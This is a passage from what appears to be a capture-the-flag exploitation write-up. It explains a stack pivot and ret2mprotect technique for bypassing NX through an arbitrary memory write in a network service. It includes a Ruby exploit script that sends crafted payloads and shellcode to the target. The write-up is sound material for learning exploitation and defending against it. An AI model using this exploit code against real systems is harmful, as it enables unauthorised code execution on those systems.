 I still wanted to do a stack pivot, since my preferred method to get around NX bit is to ret2mprotect. The only way to do this, though, required me to construct a custom stack. Kind of a chicken-and-egg problem. But, nothing stops our arbitrary memory write from writing to the stack, except for stack randomization. So, let&#8217;s assume we know the location of the stack and overwrite the stack. At this point, we can return to a &#8216;pop ebp; ret&#8217; and then to a &#8216;leave; ret&#8217;, and we have a stack pivot.

The obvious question at this point is why would we use a stack pivot when we can already write to a stack. Remember that when our arbitrary write vulnerability will use a strcpy, which means that our new stack can&#8217;t have null bytes. This is unreasonable. And, given that we know the location of the stack, we will know the location of the stack buffer that contains all 255 bytes we send to the program, including null bytes.

The new stack will look something like:

<pre><pre>[mprotect] [shellcode address] [mprotect arg1] [mprotect arg2] [mprotect arg3]</pre>


<p>
  The location of the shellcode doesn&#8217;t matter too much. It can be after the new stack, or it can be inside the intro text of a tape. It really doesn&#8217;t matter. As long as you know where it is located at run-time.
</p>


<p>
  Below is the applicable ruby code for overwriting the stack, doing a stack pivot, etc. Again, breaks are inserted to ease readability.
</p>


<pre>t = TCPSocket.new(host, port)
t.print "3\n1\n1\n1\n2\n1\n3\n3\n3\n"+shellcode+"\n"
t.print "3\n1\n\x41\x41\x41\x41\x78\x99\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\xFF"+return_addr+"\n"
t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\x00\n"
t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\x00\n"
t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\x00\n"
t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\x00\n"
t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\x00\n"
t.print "3\n1\n\x41\x41\x41\x41\x1c\xb0\x04\x08\x01\x00\n"
t.print "3\n2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB\xd0\xb0\x04\x08\n"
t.print "1\np\n10\n"
t.print "3\n4\n\xa8\x98\x04\x08"+buffer_addr+"\xac\x94\x04\x08DDDDEEEE"+mprotect+"\xd8\xb2\x04\x08\x00\xb0\x04\x08\x00\x10\x00\x00\x07\x00\x00\x00\n"
sleep 2
t.close
</pre>


<p>
  The basic overview of the above code: put shellcode in intro text, create custom page structure, setup stack with pointer to page structure, add <em>return_addr</em> pointer to the queue, and finally overwrite the stack by setting intro text.
</p>
